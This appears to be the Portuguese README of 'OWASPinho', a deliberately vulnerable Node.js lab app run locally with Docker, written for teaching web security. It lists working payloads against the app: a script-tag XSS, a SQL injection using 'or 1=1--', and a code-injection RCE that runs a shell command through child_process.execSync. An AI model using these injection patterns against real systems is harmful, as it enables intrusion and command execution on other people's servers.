 # OWASPinho
- [OWASPinho](#owaspinho)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução

```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```

![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

```
http://localhost:3000
``````
![Vulnerable Node Application](images\VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS
![Cross-Site Script](images\xss.png)
```
/?userInput=<script>alert(1)</script>
```
### SQL Injection

http://localhost:3000/users?username=kid&access-token=CHAVE_MEGASECRETA_QsriGQQbNsLykkfdci9TVutzbT9pfGZpSRMQ6FuhQNeYnZw6 

![SQL Injection](images\sqli.png)
```
/users?username='+or+1=1--&access-token=' 
```
### RCE
![Remote Code Execution](images\rce.png)
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
```